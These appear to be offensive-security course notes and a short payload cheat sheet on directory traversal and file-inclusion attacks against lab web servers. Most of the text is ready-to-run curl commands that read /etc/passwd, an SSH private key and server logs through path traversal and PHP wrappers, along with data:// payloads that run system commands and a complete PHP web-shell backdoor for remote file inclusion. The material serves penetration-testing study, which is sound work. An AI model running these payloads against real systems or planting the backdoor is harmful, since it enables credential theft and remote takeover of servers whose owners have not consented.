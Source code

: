 `http://10.11.0.22/menu.php?file=c:\windows\system32\drivers\etc\hosts`

IIS web server => log paths and web root structure.
* `C:\inetpub\logs\LogFiles\W3SVC1\`
* `C:\inetpub\wwwroot\web.config` may contain sensitive information like passwords or usernames.

```bash
curl http://mountain.com/index.php?page=../../home/offsec/.ssh/id_rsa
```

### Apache 2.4.49 LFI

```bash
curl http://192.168.50.16/cgi-bin/%2e%2e/%2e%2e/etc/passwd
```

## File Inclusion Vulnerabilities

XAMPP's Apache logs: `C:\xampp\apache\logs\`

### LFI
```bash
curl http://mountaindesserts.com/index.php?page=../../var/log/apache2/access.log
```

### PHP Wrappers

Display the contents of files either with or without encodings like Base64

```bash
curl http://mountaindesserts.com/index.php?page=php://filter/resource=admin.php

curl http://mountaindesserts.com/index.php?page=php://filter/convert.base64-encode/resource=admin.php
```

Embed data elements as plaintext or base64-encoded data in the running web application's code

```bash
curl "http://mountaindesserts.com/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"
```

```bash
echo -n '<?php echo system($_GET["cmd"]);?>' | base64

curl "http://mountaindesserts.com/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"
```

### RFI

`simple-backdoor.php`

```php
<?php
if(isset($_REQUEST['cmd'])) {
    echo "<pre>";
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
    echo "</pre>";
    die;
}
?>
```
